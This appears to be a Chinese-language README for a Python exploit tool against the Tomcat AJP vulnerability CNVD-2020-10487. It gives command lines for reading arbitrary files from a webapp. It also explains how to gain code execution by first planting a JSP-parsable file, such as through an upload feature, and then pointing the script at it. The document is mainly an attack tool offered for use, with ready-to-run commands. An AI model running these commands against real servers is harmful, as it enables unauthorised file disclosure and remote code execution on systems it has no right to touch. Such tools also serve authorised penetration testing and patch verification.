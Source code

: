 # CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p 8009 127.0.0.1
```

运行示例：
![](./img/read_file.png)

2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p 8009 127.0.0.1
```

运行示例：
![](./img/code_execute.png)
